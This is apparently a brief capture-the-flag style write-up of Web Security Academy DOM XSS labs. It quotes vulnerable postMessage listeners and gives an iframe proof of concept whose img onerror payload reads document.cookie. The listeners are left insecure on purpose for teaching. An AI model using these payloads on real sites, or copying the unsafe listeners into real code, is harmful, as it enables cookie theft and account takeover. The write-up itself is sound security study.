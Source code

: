 [TOC]

#### 1. DOM XSS using web messages

![1.1](DOM-burp.assets/1.1.png)

而这里的题目是将message写入网页。

```html
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

POC:

```HTML
<iframe src="https://ac821fec1e9d44ce80a17ea100e50084.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=\'uuu\' onerror=alert(document.cookie)>','*')">
```

#### 2. DOM XSS using web messages and a JavaScript URL

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
